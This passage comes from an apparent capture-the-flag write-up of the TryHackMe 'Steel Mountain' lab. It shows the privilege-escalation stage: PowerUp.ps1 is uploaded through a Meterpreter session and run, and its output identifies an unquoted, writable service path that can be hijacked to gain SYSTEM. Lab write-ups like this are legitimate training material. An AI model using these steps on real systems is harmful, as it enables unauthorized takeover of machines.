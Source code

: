 ## Privilege escalation

Download the `Powersploit` powershell script and upload it using the meterpreter

```
meterpreter > upload PowerUp.ps1
[*] Uploading  : /home/nairolf32/Bureau/Hacking/Ctfs/THM/Steel Mountain/PowerUp.ps1 -> PowerUp.ps1
[*] Uploaded 586.50 KiB of 586.50 KiB (100.0%): /home/nairolf32/Bureau/Hacking/Ctfs/THM/Steel Mountain/PowerUp.ps1 -> PowerUp.ps1
[*] Completed  : /home/nairolf32/Bureau/Hacking/Ctfs/THM/Steel Mountain/PowerUp.ps1 -> PowerUp.ps1

meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_shell

PS > . .\PowerUp.ps1
PS > Invoke-AllChecks


ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit; IdentityReference=STEELMOUNTAIN\bill;
                 Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe;
                 IdentityReference=STEELMOUNTAIN\bill; Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AWSLiteAgent
Path           : C:\Program Files\Amazon\XenTools\LiteAgent.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
```